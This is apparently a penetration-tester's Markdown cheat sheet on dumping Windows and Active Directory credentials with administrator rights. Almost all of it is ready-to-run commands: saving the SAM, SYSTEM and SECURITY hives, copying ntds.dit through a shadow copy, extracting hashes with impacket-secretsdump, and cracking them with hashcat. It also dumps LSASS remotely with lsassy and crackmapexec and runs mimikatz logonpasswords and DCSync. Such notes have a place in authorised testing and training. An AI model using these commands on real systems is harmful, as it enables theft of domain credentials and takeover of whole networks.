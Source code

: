 # Secrets Dump
Need administrator rights. On DC you can retrieve NTDS.DIT file for domain users. hashes can be used for Pass The Hash attack (except cached hashes).	

Requirements:
* Access to admin account

## Local
Keys (SYSTEM):
`reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM`

Domain hashes & kerberos keys (NTDS.DIT):
```bash
vssadmin create shadow /for=C:
copy <SHADOW_PATH>\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
vssadmin delete shadows /shadow=<SHADOW_ID>
```

`impacket-secretsdump -ntds <NTDS.DIT> -system <SYSTEM> LOCAL`
`hashcat -m 1000 <HASH> <PASSLIST> --potfile-disable`

Local hashes (SAM):
`reg SAVE HKLM\SAM C:\Windows\Temp\SAM`

`impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL`
`hashcat -m 1000 <HASH> <PASSLIST> --potfile-disable`

Cached domain hashes (SECURITY):
`reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY`

`impacket-secretsdump -SECURITY <SECURITY> -system <SYSTEM> LOCAL`
`hashcat -m 2100 <HASH> <PASSLIST> --potfile-disable`

Cached domain hashes (lsass process):
`lsassy -d <DOMAIN> -u <USER> -p <PASS> <IP>`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> -M lsassy`

## Remote
`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --sam`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --lsa`


crackmapexec

Check with `Privilege::debug` if the right priv are set (admin).

Sekurlsa::logonpasswords
Lsadump::dcsync /user:\<USER\> /domain:\<DOMAIN\>
Lsadump::lsa /inject /name:\<USER\>